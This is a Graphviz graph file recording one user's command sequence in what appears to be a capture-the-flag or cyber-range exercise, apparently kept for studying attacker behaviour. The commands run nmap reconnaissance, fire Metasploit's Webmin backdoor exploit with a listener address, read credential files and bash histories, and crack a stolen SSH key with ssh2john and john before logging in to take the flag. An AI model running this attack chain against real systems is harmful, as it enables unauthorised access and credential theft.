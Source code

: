 // creating graph for user: 56
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.15 A0 "]
	1 [label="nmap -Pn 172.18.1.15 A0 "]
	2 [label="nmap -Pn -p- 172.18.1.15 A0 "]
	3 [label="ls U"]
	4 [label="nmap 172.18.1.5 A0 "]
	5 [label="nmap -sC 172.18.1.5 A0 "]
	6 [label="nmap -sV 172.18.1.5 A0 "]
	7 [label="nmap -sC -sV -p 10000 172.18.1.5 A0 "]
	8 [label="msfconsole U"]
	9 [label="search miniserv U"]
	10 [label="search Miniserv U"]
	11 [label="search 1.920 U"]
	12 [label="search webmin U"]
	13 [label="searchsploit webmin U"]
	14 [label="searchsploit -m exploits/linux/remote/47230.rb U"]
	15 [label="nano /usr/share/exploitdb/exploits/linux/remote/47230.rb U"]
	16 [label="chmod +x /usr/share/exploitdb/exploits/linux/remote/47230.rb U"]
	17 [label="cd /usr/share/exploitdb/exploits/linux/remote/ U"]
	18 [label="ls U"]
	19 [label="./47230.rb U"]
	20 [label="use /usr/share/exploitdb/exploits/linux/remote/47230.rb U"]
	21 [label="search 1.920 U"]
	22 [label="ruby 47230.rb U"]
	23 [label="./47230.rb U"]
	24 [label="nano 47230.rb U"]
	25 [label="use exploit/unix/webapp/webmin_backdoor U"]
	26 [label="show options U"]
	27 [label="set LHOST=10.1.135.83 U"]
	28 [label="show options  U"]
	29 [label="set LHOST=10.1.153.83 U"]
	30 [label="set LHOST 10.1.153.83 U"]
	31 [label="exploit U"]
	32 [label="show options U"]
	33 [label="set RHOSTS 172.18.1.5 U"]
	34 [label="exploit U"]
	35 [label="set RPORT 10000 U"]
	36 [label="exploit  U"]
	37 [label="show options  U"]
	38 [label="set LHOST 192.168.129.103 U"]
	39 [label="exploit  U"]
	40 [label="cat /root/flag U"]
	41 [label="cd /root/  U"]
	42 [label="cat config U"]
	43 [label="cat webmin.schema U"]
	44 [label="cat help U"]
	45 [label="ls U"]
	46 [label="cat module.info.cz U"]
	47 [label="cat schema.cgi U"]
	48 [label="cat config U"]
	49 [label="ls U"]
	50 [label="cat webmin.schema U"]
	51 [label="ls U"]
	52 [label="cat schema.cgi U"]
	53 [label="cat backup_config.pl U"]
	54 [label="ls -la U"]
	55 [label="cat config.info.hr U"]
	56 [label="ls U"]
	57 [label="find /root/*[0-9][0-9][0-9][0-0][0-9] U"]
	58 [label="find /root/*[0-9][0-9][0-9][0-0][0-9]* U"]
	59 [label="grep -rnw /root/ U"]
	60 [label="wget http://raw.githubusercontent.com/petrmarinec/awdawd/master/FILE U"]
	61 [label="ls U"]
	62 [label="cat FILE U"]
	63 [label="grep -rnw /root/ -e '[0-9]+([^0-9]+[0-9]+){4}' U"]
	64 [label="ls U"]
	65 [label="y U"]
	66 [label="cd /root/ U"]
	67 [label="ls U"]
	68 [label="cat WARNING-READ-ME.txt U"]
	69 [label="ifconfig U"]
	70 [label="nmap 172.18.1.5/24 A0 "]
	71 [label="ps aux U"]
	72 [label="ifconfig U"]
	73 [label="nmap 172.18.1.5 A0 "]
	74 [label="nmap 172.18.1.5/24 A0 "]
	75 [label="nmap 172.18.1.1 A0 "]
	76 [label="nmap 172.18.1.1/24 A0 "]
	77 [label="nmap 172.18.1.5 A0 "]
	78 [label="ls U"]
	79 [label="cat WARNIN-READ-ME.txt U"]
	80 [label="cat WARNING-READ-ME.txt U"]
	81 [label="ls U"]
	82 [label="cd /root/ U"]
	83 [label="ls U"]
	84 [label="cat WARNING-READ-ME.txt U"]
	85 [label="ls U"]
	86 [label="ifconfig U"]
	87 [label="fping -ag 172.18.1.5/24 U"]
	88 [label="apt get-install nmap U"]
	89 [label="nmap U"]
	90 [label="ls U"]
	91 [label="cd /var U"]
	92 [label="ls U"]
	93 [label="cd webmin U"]
	94 [label="ls U"]
	95 [label="cat miniserv.log U"]
	96 [label="clear U"]
	97 [label="export TERM=xterm U"]
	98 [label="clear U"]
	99 [label="l U"]
	100 [label="ls U"]
	101 [label="cd .. U"]
	102 [label="ls U"]
	103 [label="cd backups U"]
	104 [label="ls U"]
	105 [label="cd /home U"]
	106 [label="ls U"]
	107 [label="cd alice U"]
	108 [label="ls U"]
	109 [label="ls -la U"]
	110 [label="cat .bashrc U"]
	111 [label="cd .. U"]
	112 [label="ls U"]
	113 [label="cd bob U"]
	114 [label="ls U"]
	115 [label="cd .. U"]
	116 [label="cd debian U"]
	117 [label="ls U"]
	118 [label="cd .. U"]
	119 [label="cd eve U"]
	120 [label="ls U"]
	121 [label="cd .. U"]
	122 [label="cd bob U"]
	123 [label="cd /var U"]
	124 [label="ls U"]
	125 [label="cd local U"]
	126 [label="ls U"]
	127 [label="cd .. U"]
	128 [label="cd webmin U"]
	129 [label="ls U"]
	130 [label="ls U"]
	131 [label="cat miniserv.log U"]
	132 [label="ls U"]
	133 [label="nmap U"]
	134 [label="ls U"]
	135 [label="cd .. U"]
	136 [label="ls U"]
	137 [label="cd backusp U"]
	138 [label="ls U"]
	139 [label="cd backups U"]
	140 [label="ls U"]
	141 [label="cat passwd.bak U"]
	142 [label="clear U"]
	143 [label="ls U"]
	144 [label="cd .. U"]
	145 [label="cd .. U"]
	146 [label="ls U"]
	147 [label="cd /home U"]
	148 [label="ls U"]
	149 [label="cd /home U"]
	150 [label="ls U"]
	151 [label="cd alice U"]
	152 [label="ls U"]
	153 [label="ls -la U"]
	154 [label="cat .bash_logout U"]
	155 [label="cd .. U"]
	156 [label="ls U"]
	157 [label="cd bob U"]
	158 [label="ls U"]
	159 [label="ls -la U"]
	160 [label="cat .profile U"]
	161 [label="cd .. U"]
	162 [label="ls U"]
	163 [label="cd debian U"]
	164 [label="ls -la U"]
	165 [label="cat .bashrc U"]
	166 [label="ls U"]
	167 [label="ls -la U"]
	168 [label="cat .ansible U"]
	169 [label="cd .ansible U"]
	170 [label="ls U"]
	171 [label="cd tmp U"]
	172 [label="ls U"]
	173 [label="ls -la U"]
	174 [label="cd .. U"]
	175 [label="ls -la U"]
	176 [label="ls U"]
	177 [label="cd .. U"]
	178 [label="ls U"]
	179 [label="ls -la U"]
	180 [label="cat .bash_logout U"]
	181 [label="ls U"]
	182 [label="msfconsole U"]
	183 [label="use unix/webapp/webmin_backdoor U"]
	184 [label="show options U"]
	185 [label="set RHOSTS 172.18.1.5 U"]
	186 [label="set LHOST 10.1.135.83 U"]
	187 [label="set RPORT 10000 U"]
	188 [label="cat .progle U"]
	189 [label="ls U"]
	190 [label="cd /root/ U"]
	191 [label="export TERM=xterm U"]
	192 [label="clear U"]
	193 [label="ls U"]
	194 [label="cd /home U"]
	195 [label="ls U"]
	196 [label="cd eve U"]
	197 [label="ls U"]
	198 [label="ls -la U"]
	199 [label="cat .bash_history U"]
	200 [label="cd /var/www U"]
	201 [label="ls U"]
	202 [label="cd /var U"]
	203 [label="ls U"]
	204 [label="cd webmin U"]
	205 [label="ls U"]
	206 [label="cat blocked U"]
	207 [label="cd blocked U"]
	208 [label="cd .. U"]
	209 [label="ls U"]
	210 [label="cd local U"]
	211 [label="ls U"]
	212 [label="cd .. U"]
	213 [label="ls U"]
	214 [label="scp 10.1.17.4 U"]
	215 [label="ls U"]
	216 [label="ssh 10.1.17.4 U"]
	217 [label="ls U"]
	218 [label="cd backups U"]
	219 [label="ls U"]
	220 [label="cat passwd.bak U"]
	221 [label="ls U"]
	222 [label="cd .. U"]
	223 [label="l U"]
	224 [label="sls U"]
	225 [label="ls U"]
	226 [label="cd local U"]
	227 [label="ls U"]
	228 [label="cd .. U"]
	229 [label="cd log U"]
	230 [label="ls U"]
	231 [label="cat user.log U"]
	232 [label="ls U"]
	233 [label="cd .. U"]
	234 [label="l U"]
	235 [label="ls U"]
	236 [label="cd lock U"]
	237 [label="l U"]
	238 [label="sls U"]
	239 [label="cd .. U"]
	240 [label="ls U"]
	241 [label="cd mail U"]
	242 [label="ls U"]
	243 [label="cd .. U"]
	244 [label="find / -perm -4000 2>/dev/null U"]
	245 [label="ls U"]
	246 [label="cd webmin U"]
	247 [label="ls U"]
	248 [label="cd .. U"]
	249 [label="ls U"]
	250 [label="ifconfig U"]
	251 [label="ls U"]
	252 [label="ls U"]
	253 [label="ls U"]
	254 [label="cd /home U"]
	255 [label="ls U"]
	256 [label="cd eve U"]
	257 [label="cd .ssh U"]
	258 [label="ls U"]
	259 [label="exploit U"]
	260 [label="ssh -i id_rsa -l eve 10.1.17.4 U"]
	261 [label="cd /home/eve U"]
	262 [label="ls U"]
	263 [label="cd .ssh U"]
	264 [label="l U"]
	265 [label="ls U"]
	266 [label="ssh -i id_rsa eve@10.1.17.4 U"]
	267 [label="cat id_rsa U"]
	268 [label="ssh2john U"]
	269 [label="cat id_rsa U"]
	270 [label="touch id_rsa U"]
	271 [label="nano id_rsa U"]
	272 [label="nano id_rsa U"]
	273 [label="ls U"]
	274 [label="ss2john.py id_rsa U"]
	275 [label="python ssh2john.py id_rsa A5 M5 "]
	276 [label="python ssh2john.py id_rsa > hash A5 M5 "]
	277 [label="john hash U"]
	278 [label="ls U"]
	279 [label="ls U"]
	280 [label="cat id_rsa U"]
	281 [label="john hash U"]
	282 [label="cd /usr/share/ U"]
	283 [label="ls U"]
	284 [label="cd wordlists/ U"]
	285 [label="ls U"]
	286 [label="john /root/hash --wordlist=rockyou.txt U"]
	287 [label="ssh -i id_rsa eve@10.1.17.4 U"]
	288 [label="ls U"]
	289 [label="cat top-secret U"]
	290 [label="cd top-secret U"]
	291 [label="ls U"]
	292 [label="cat flag.txt A8 M8 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	141 -> 142 [constraint=false]
	142 -> 143 [constraint=false]
	143 -> 144 [constraint=false]
	144 -> 145 [constraint=false]
	145 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 148 [constraint=false]
	148 -> 149 [constraint=false]
	149 -> 150 [constraint=false]
	150 -> 151 [constraint=false]
	151 -> 152 [constraint=false]
	152 -> 153 [constraint=false]
	153 -> 154 [constraint=false]
	154 -> 155 [constraint=false]
	155 -> 156 [constraint=false]
	156 -> 157 [constraint=false]
	157 -> 158 [constraint=false]
	158 -> 159 [constraint=false]
	159 -> 160 [constraint=false]
	160 -> 161 [constraint=false]
	161 -> 162 [constraint=false]
	162 -> 163 [constraint=false]
	163 -> 164 [constraint=false]
	164 -> 165 [constraint=false]
	165 -> 166 [constraint=false]
	166 -> 167 [constraint=false]
	167 -> 168 [constraint=false]
	168 -> 169 [constraint=false]
	169 -> 170 [constraint=false]
	170 -> 171 [constraint=false]
	171 -> 172 [constraint=false]
	172 -> 173 [constraint=false]
	173 -> 174 [constraint=false]
	174 -> 175 [constraint=false]
	175 -> 176 [constraint=false]
	176 -> 177 [constraint=false]
	177 -> 178 [constraint=false]
	178 -> 179 [constraint=false]
	179 -> 180 [constraint=false]
	180 -> 181 [constraint=false]
	181 -> 182 [constraint=false]
	182 -> 183 [constraint=false]
	183 -> 184 [constraint=false]
	184 -> 185 [constraint=false]
	185 -> 186 [constraint=false]
	186 -> 187 [constraint=false]
	187 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	191 -> 192 [constraint=false]
	192 -> 193 [constraint=false]
	193 -> 194 [constraint=false]
	194 -> 195 [constraint=false]
	195 -> 196 [constraint=false]
	196 -> 197 [constraint=false]
	197 -> 198 [constraint=false]
	198 -> 199 [constraint=false]
	199 -> 200 [constraint=false]
	200 -> 201 [constraint=false]
	201 -> 202 [constraint=false]
	202 -> 203 [constraint=false]
	203 -> 204 [constraint=false]
	204 -> 205 [constraint=false]
	205 -> 206 [constraint=false]
	206 -> 207 [constraint=false]
	207 -> 208 [constraint=false]
	208 -> 209 [constraint=false]
	209 -> 210 [constraint=false]
	210 -> 211 [constraint=false]
	211 -> 212 [constraint=false]
	212 -> 213 [constraint=false]
	213 -> 214 [constraint=false]
	214 -> 215 [constraint=false]
	215 -> 216 [constraint=false]
	216 -> 217 [constraint=false]
	217 -> 218 [constraint=false]
	218 -> 219 [constraint=false]
	219 -> 220 [constraint=false]
	220 -> 221 [constraint=false]
	221 -> 222 [constraint=false]
	222 -> 223 [constraint=false]
	223 -> 224 [constraint=false]
	224 -> 225 [constraint=false]
	225 -> 226 [constraint=false]
	226 -> 227 [constraint=false]
	227 -> 228 [constraint=false]
	228 -> 229 [constraint=false]
	229 -> 230 [constraint=false]
	230 -> 231 [constraint=false]
	231 -> 232 [constraint=false]
	232 -> 233 [constraint=false]
	233 -> 234 [constraint=false]
	234 -> 235 [constraint=false]
	235 -> 236 [constraint=false]
	236 -> 237 [constraint=false]
	237 -> 238 [constraint=false]
	238 -> 239 [constraint=false]
	239 -> 240 [constraint=false]
	240 -> 241 [constraint=false]
	241 -> 242 [constraint=false]
	242 -> 243 [constraint=false]
	243 -> 244 [constraint=false]
	244 -> 245 [constraint=false]
	245 -> 246 [constraint=false]
	246 -> 247 [constraint=false]
	247 -> 248 [constraint=false]
	248 -> 249 [constraint=false]
	249 -> 250 [constraint=false]
	250 -> 251 [constraint=false]
	251 -> 252 [constraint=false]
	252 -> 253 [constraint=false]
	253 -> 254 [constraint=false]
	254 -> 255 [constraint=false]
	255 -> 256 [constraint=false]
	256 -> 257 [constraint=false]
	257 -> 258 [constraint=false]
	258 -> 259 [constraint=false]
	259 -> 260 [constraint=false]
	260 -> 261 [constraint=false]
	261 -> 262 [constraint=false]
	262 -> 263 [constraint=false]
	263 -> 264 [constraint=false]
	264 -> 265 [constraint=false]
	265 -> 266 [constraint=false]
	266 -> 267 [constraint=false]
	267 -> 268 [constraint=false]
	268 -> 269 [constraint=false]
	269 -> 270 [constraint=false]
	270 -> 271 [constraint=false]
	271 -> 272 [constraint=false]
	272 -> 273 [constraint=false]
	273 -> 274 [constraint=false]
	274 -> 275 [constraint=false]
	275 -> 276 [constraint=false]
	276 -> 277 [constraint=false]
	277 -> 278 [constraint=false]
	278 -> 279 [constraint=false]
	279 -> 280 [constraint=false]
	280 -> 281 [constraint=false]
	281 -> 282 [constraint=false]
	282 -> 283 [constraint=false]
	283 -> 284 [constraint=false]
	284 -> 285 [constraint=false]
	285 -> 286 [constraint=false]
	286 -> 287 [constraint=false]
	287 -> 288 [constraint=false]
	288 -> 289 [constraint=false]
	289 -> 290 [constraint=false]
	290 -> 291 [constraint=false]
	291 -> 292 [constraint=false]
	rankdir=LR
}
